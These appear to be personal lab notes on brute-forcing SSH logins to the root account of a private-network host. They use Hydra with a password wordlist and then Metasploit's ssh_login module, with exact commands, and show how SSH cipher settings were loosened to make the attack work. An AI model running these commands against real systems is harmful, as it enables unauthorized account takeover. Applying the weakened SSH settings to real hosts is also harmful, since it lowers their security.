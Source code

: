 
# Brute Force Attack


1. Use Hydra

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.68.6 -t 4 -V

```

I encountered issue in running hydra. First is the incompatibility with the cipher used, so I edited the /etc/ssh/ssh_config to accept old ciphers


![[Pasted image 20240613202040.png]]

From https://medium.com/@sany4sec/ssh-error-in-hydra-while-brute-forcing-b148a61752e2 - I added the following key exchange

```
Host *  
  Ciphers +3des-cbc,aes128-cbc,aes192-cbc,aes256-cbc  
  KexAlgorithms +diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1,diffie-hellman-group14-sha1  
  HostKeyAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com  
  PubkeyAcceptedAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com
```

After that it runs to Out of Memory Error. It turns out that I need to execute the steps here in this link. As it turns out, libssh doesn't support +,-,^ signs in the config. Luckily it's just been implemented upstream, on the master

https://www.kali.org/docs/general-use/ssh-configuration/

This setting can be changed easily using the `kali-tweaks` tool. Simply:

- Open a terminal and run `kali-tweaks`.
- From there, select the _Hardening_ menu.
- Now you can choose between **Strong Security** _(the default)_ and **Wide Compatibility**.

_Note: This is achieved by creating or deleting the configuration file `/etc/ssh/ssh_config.d/kali-wide-compat.conf`._

![[Pasted image 20240613202250.png]]


The end result

![[Pasted image 20240613202411.png]]


==================================================

## Use the metasploit

1. Look for ssh login

```
msfconsole
```

```
search ssh login
```

You can see there the `11 auxiliary/scanner/ssh/ssh_login`

2. Select the `auxiliary/scanner/ssh/ssh_login`
```
use 11
```

3. Check options for settings
```
options
```

![[Pasted image 20240613202835.png]]


4. We will set for now username as `root` and password as `pass_file(option from the options command) /usr/share/wordlists/metasploit/unix_passwords.txt
```
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
```
5. Set the RHOSTS
```
set rhosts 192.168.68.6
```
6. Set threads
```
set threads 10
```
8. execute `options` one more time to check the settings.

![[Pasted image 20240613203305.png]]


9. Set verbose to true to check run logs
```
set verbose true
run
```

![[Pasted image 20240613203442.png]]
